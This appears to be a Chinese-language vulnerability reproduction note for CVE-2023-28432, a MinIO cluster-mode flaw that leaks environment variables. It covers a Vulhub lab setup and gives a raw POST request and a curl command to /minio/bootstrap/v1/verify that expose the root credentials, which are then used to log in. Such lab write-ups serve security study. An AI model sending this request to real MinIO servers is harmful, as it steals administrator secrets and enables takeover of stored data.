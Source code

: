 # CVE-2023-28432

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** MinIO集群模式信息泄漏

## 0x01 漏洞描述

MinIO是一个开源对象存储系统。

集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD。

## 0x02 影响范围

在其RELEASE.2023-03-20T20-16-18Z版本（不含）以前

## 0x03 环境搭建

Vulhub执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```javascript
docker-compose up -d
```

集群启动后，访问http://your-ip:9001可以查看Web管理页面，访问http://your-ip:9000是API服务。

 ![](image/75ad6200-bcdb-4c30-8d97-ec787ee64ca8.png)

## 0x04 漏洞复现

这个漏洞存在于API节点http://your-ip:9000/minio/bootstrap/v1/verify上，发送如下数据包即可查看泄露的环境变量：

```javascript
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

 ![](image/dd6c223b-d297-4cce-b493-2473c4aaf216.png)也可以直接 curl：

```javascript
curl -XPOST http://your-ip:9000/minio/bootstrap/v1/verify
```

可见，其中包含MINIO_ROOT_USER (accessKey)和MINIO_ROOT_PASSWORD (secretKey)。使用这个账号密码，即可成功登录管理后台：

```javascript
MINIO_ROOT_USER		minioadmin
MINIO_ROOT_PASSWORD	minioadmin-vulhub
```

 ![](image/f39d3e3c-3e84-4bc4-abfd-2ef83ed89d47.png)
